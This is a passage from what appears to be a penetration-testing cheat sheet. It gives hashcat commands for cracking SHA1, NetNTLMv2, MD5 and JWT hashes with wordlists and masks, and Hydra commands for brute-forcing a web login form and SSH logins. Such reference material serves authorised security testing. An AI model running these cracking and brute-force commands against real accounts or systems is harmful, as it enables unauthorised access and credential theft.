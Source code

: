 Dictionary attack:

```fundamental
hashcat -m 100 -a 0 --session=cracking --force --status -O B1B3773A05C0ED0176787A4F1574FF0075F7521E rockyou.txt

hashcat -m 5600 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

You can find `rockyou.txt` wordlist in [SecLists](#wordlists).

Brute force a hash using a placeholder:

```fundamental
hashcat -m 0 -a 3 --session=cracking --force --status -O cc158fa2f16206c8bd2c750002536211 -1 ?l?u -2 ?d?s ?1?l?l?l?l?l?2?2

hashcat -m 0 -a 3 --session=cracking --force --status -O 85fb9a30572c42b19f36d215722e1780 -1 \!\"\#\$\%\&\/\(\)\=??\* -2 ?d?1 ?u?l?l?l?l?2?2?2
```

### Cracking the JWT

Dictionary attack:

```fundamental
hashcat -m 16500 -a 3 --session=cracking --force --status -O eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSm9obiBEb2UifQ.xuEv8qrfXu424LZk8bVgr9MQJUIrp1rHcPyZw_KSsds
```

You can also check my JWT cracking tool in my project at [ivan-sincek/jwt-bf](https://github.com/ivan-sincek/jwt-bf).

### Hydra

I prefer to use Burp Suite to brute force web forms, and Hydra for other services.

Dictionary attack on an HTTP POST login web form:

```fundamental
hydra -o hydra_results.txt -l admin -P rockyou.txt somesite.com http-post-form '/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!'
```

When brute forcing a login web form, you must specify `Login=Login:<expected_message>` to distinguish between the successful and failed login attempts. Change the `username` and `password` request parameter names as necessary.

Dictionary attack on a Secure Shell (SSH) login:

```fundamental
hydra -o hydra_results.txt -L users.txt -P rockyou.txt 192.168.8.5 ssh
```

You can find a bunch of useful wordlists in [SecLists](#wordlists).

| Option | Description |
| --- | --- |
| -R | Restore a previous aborted/crashed session |
| -S | Perform an SSL connect |
| -O | Use old SSL v2 and v3 |
| -s | If the service is on a different default port, define it here |
| -l | Login with a login name |
| -L | Load several logins from a file |
| -p | Login with a password |